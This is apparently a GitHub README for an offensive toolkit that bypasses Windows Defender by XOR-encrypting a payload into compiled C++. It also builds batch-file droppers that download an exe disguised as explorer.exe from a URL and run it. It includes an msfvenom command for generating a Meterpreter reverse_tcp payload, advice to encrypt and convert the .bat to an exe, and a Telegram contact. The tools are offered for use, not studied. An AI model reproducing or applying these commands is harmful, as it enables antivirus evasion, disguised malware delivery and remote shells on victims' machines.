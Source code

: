 # windows defender bypass with c++ and batchscript

required mingw32-g++ and python installed on your os.

help <windefbyp.py>:
```
options:
  -h, --help         show this help message and exit
  -p <payload.bin>   payload file path, ex: ./payload.bin
  -o <output.cpp>    output file (.cpp extension), ex: ./output.cpp
  -e <exe_file.exe>  exe output file (.exe extension), ex: exe_file.exe
```

usage <windefbyp.py>:
```
windefbyp.py [-h] -p <payload.bin> -o <output.cpp> -e <exe_file.exe>
```

help <need2bat.py>:
```
options:
  -h, --help         show this help message and exit
  -u [http://url]    payload file url, ex: http://192.168.1.5:8080/payload.exe
  -d <explorer.exe>  output file name for downloading, ex: explorer.exe (.exe extension)
  -o <output.bat>    output file name, ex: output.bat (.bat extension)
```

usage <need2bat.py>:
```
need2bat.py [-h] -u [http://url] -d <explorer.exe> -o <output.bat>
```

# hint:

- encrypt the output .bat file and convert it to exe (;
  
- use this command to make <payload.bin> file (must be installed metasploit):
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=ur_ip lport=ur_port -f raw > ./payload.bin
```

# info:

windefbyp.py: windows defender bypass with xor encryption

need2bat.py: create a .bat file that download the payload file from via http and run it via cmd

source.cpp: source file for windefbyp.py

source.bat: source file for need2bat.py

dm on telegram: @TSuNAmi_ORg
